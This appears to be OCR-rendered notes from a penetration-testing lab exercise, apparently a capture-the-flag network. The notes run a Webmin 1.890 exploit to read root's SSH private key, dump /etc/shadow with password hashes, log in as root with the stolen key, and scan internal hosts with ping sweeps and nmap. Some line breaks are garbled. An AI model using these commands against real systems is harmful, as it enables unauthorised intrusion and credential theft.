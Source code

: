 ```bash

python3 webmin-1.890_exploit.py 10.200.185.200 10000 "cat /root/.ssh/id_rsa"
```

## PORT 22 [ssh]
```bash
cat /etc/shadow
root:$6$i9vT8tk3SoXXxK2P$HDIAwho9FOdd4QCecIJKwAwwh8Hwl.BdsbMOUAd3X/chSCvrmpfy.5lrLgnRVNq6/6g0PxK9VqSdy47/qKXad1::0:99999:7:::
twreath:$6$0my5n311RD7EiK3J$zVFV3WAPCm/dBxzz0a7uDwbQenLohKiunjlDonkqx1huhjmFYZe0RmCPsHmW3OnWYwf8RWPdXAdbtYpkJCReg.::0:99999:7:::
```

```bash
for i in {1..255}; do (ping -c 1 172.16.0.${i} | grep "bytes from" &); done

```



## PORT 22 [SSH]
```bash
ssh -i id_rsa_tar1_root root@10.200.185.200

./nmap -sn 10.200.185
.200/24 -oN scan_nmap_hosts
Nmap scan report for ip-10-200-185
-1.eu-west-1.compute.internal (10.200.185
.1)
Nmap scan report for ip-10-200-185
-100.eu-west-1.compute.internal (10.200.185
.100)
Nmap scan report for ip-10-200-185
-150.eu-west-1.compute.internal (10.200.185.150
)
Nmap scan report for ip-10-200-185
-250.eu-west-1.compute.internal (10.200.185
.250)
Nmap scan report for ip-10-200-185
-200.eu-west-1.compute.internal (10.200.185
.200)

REAL HOSTS : 10.200.185
.100, 10.200.185.150


not filtered 10.200.185.150


./nmap -vv 10.200.185.150

Discovered open port 3389/tcp on 10.200.185.150

Discovered open port 80/tcp on 10.200.185.150

Discovered open port 5985/tcp on 10.200.185.150


PORT     STATE SERVICE       REASON
80/tcp   open  http          syn-ack ttl 128
3389/tcp open  ms-wbt-server syn-ack ttl 128
5985/tcp open  wsman         syn-ack ttl 128
MAC Address: 02:9F:F7:DC:6B:2B (Unknown)

```